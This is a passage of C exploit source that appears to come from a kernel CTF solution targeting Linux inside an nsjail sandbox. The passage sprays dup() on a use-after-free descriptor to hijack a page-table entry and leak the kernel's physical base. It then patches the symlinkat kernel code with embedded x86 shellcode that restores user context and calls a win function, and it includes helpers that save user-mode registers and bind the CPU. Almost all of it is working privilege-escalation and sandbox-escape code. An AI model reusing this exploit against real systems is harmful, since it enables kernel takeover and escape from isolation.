    dma_buf[0]='a';
    logw("dma buf content %p",*ldma_buf);

     for (size_t i = 0; i < 0x1000; i++)
    {
        dup(uaf_fd);
    }
    if(*ldma_buf<0xff)die("pte dup failed");
    logw("after dup dma buf content  %p",*ldma_buf);
    *ldma_buf=0x800000000009c067;


    size_t * hijack_pte =NULL;
    for (size_t i = 0; i < SPRAY_PAGE_COUNT; i++)
    {
        // printf("%d -> %p %p\n",i,*(size_t*)spray_page[i],spray_page[i]);
        if(*(char*)spray_page[i]!='A'){
            hijack_pte=spray_page[i];
            logd("leak base success");
            break;
        }
    }
    if(hijack_pte==NULL)die("leak base failed");

    size_t physical_addr= *hijack_pte & (~0xfff);
    size_t physical_base=physical_addr-0x1c04000;
    showAddr(physical_base);

    puts("== STEP 6 ==");
    logi("Escaping from nsjail");
    char shellcode[] = {
        0xf3, 0x0f, 0x1e, 0xfa, 0xe8, 0x00, 0x00, 0x00, 0x00, 0x41, 0x5f, 0x49, 0x81, 0xef, 0xc9,
        0xd4, 0x24, 0x00, 0x49, 0x8d, 0xbf, 0xd8, 0x5e, 0x44, 0x01, 0x49, 0x8d, 0x87, 0x20, 0xe6,
        0x0a, 0x00, 0xff, 0xd0, 0xbf, 0x01, 0x00, 0x00, 0x00, 0x49, 0x8d, 0x87, 0x50, 0x37, 0x0a,
        0x00, 0xff, 0xd0, 0x48, 0x89, 0xc7, 0x49, 0x8d, 0xb7, 0xe0, 0x5c, 0x44, 0x01, 0x49, 0x8d,
        0x87, 0x40, 0xc1, 0x0a, 0x00, 0xff, 0xd0, 0x49, 0x8d, 0xbf, 0x48, 0x82, 0x53, 0x01, 0x49,
        0x8d, 0x87, 0x90, 0xf8, 0x27, 0x00, 0xff, 0xd0, 0x48, 0x89, 0xc3, 0x48, 0xbf, 0x11, 0x11,
        0x11, 0x11, 0x11, 0x11, 0x11, 0x11, 0x49, 0x8d, 0x87, 0x50, 0x37, 0x0a, 0x00, 0xff, 0xd0,
        0x48, 0x89, 0x98, 0x40, 0x07, 0x00, 0x00, 0x31, 0xc0, 0x48, 0x89, 0x04, 0x24, 0x48, 0x89,
        0x44, 0x24, 0x08, 0x48, 0xb8, 0x22, 0x22, 0x22, 0x22, 0x22, 0x22, 0x22, 0x22, 0x48, 0x89,
        0x44, 0x24, 0x10, 0x48, 0xb8, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x33, 0x48, 0x89,
        0x44, 0x24, 0x18, 0x48, 0xb8, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x44, 0x48, 0x89,
        0x44, 0x24, 0x20, 0x48, 0xb8, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x55, 0x48, 0x89,
        0x44, 0x24, 0x28, 0x48, 0xb8, 0x66, 0x66, 0x66, 0x66, 0x66, 0x66, 0x66, 0x66, 0x48, 0x89,
        0x44, 0x24, 0x30, 0x49, 0x8d, 0x87, 0x41, 0x0f, 0xc0, 0x00, 0xff, 0xe0, 0xcc };
    void *p;
    p = memmem(shellcode, sizeof(shellcode), "\x11\x11\x11\x11\x11\x11\x11\x11", 8);
    *(size_t*)p = getpid();
    p = memmem(shellcode, sizeof(shellcode), "\x22\x22\x22\x22\x22\x22\x22\x22", 8);
    *(size_t*)p = (size_t)&win;
    p = memmem(shellcode, sizeof(shellcode), "\x33\x33\x33\x33\x33\x33\x33\x33", 8);
    *(size_t*)p = user_cs;
    p = memmem(shellcode, sizeof(shellcode), "\x44\x44\x44\x44\x44\x44\x44\x44", 8);
    *(size_t*)p = user_rflags;
    p = memmem(shellcode, sizeof(shellcode), "\x55\x55\x55\x55\x55\x55\x55\x55", 8);
    *(size_t*)p = user_sp;
    p = memmem(shellcode, sizeof(shellcode), "\x66\x66\x66\x66\x66\x66\x66\x66", 8);
    *(size_t*)p = user_ss;

    size_t physical_symlinkat= physical_base + 0x24d4c0;
    *ldma_buf= (physical_symlinkat&(~0xfff)) | 0x8000000000000067;
    showAddr(*ldma_buf);
    memcpy(((char*)hijack_pte) + ( physical_symlinkat & 0xfff), shellcode, sizeof(shellcode));

    printf("%d\n", symlink("/jail/x", "/jail"));


   BLUE;puts("[*]end");CLOSE;
   return 0;
}


void save_status(){
   __asm__("mov user_cs,cs;"
           "pushf;" //push eflags
           "pop user_rflags;"
           "mov user_sp,rsp;"
           "mov user_ss,ss;"
          );

    puts("\033[34mUser land saved.\033[0m");
    printf("\033[34muser_ss:0x%llx\033[0m\n", user_ss);
    printf("\033[34muser_sp:0x%llx\033[0m\n", user_sp);
    printf("\033[34muser_rflags:0x%llx\033[0m\n", user_rflags);
    printf("\033[34muser_cs:0x%llx\033[0m\n", user_cs);

}


void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
    BLUE;printf("[*] bind_cpu(%d)",core);CLOSE;
}

```
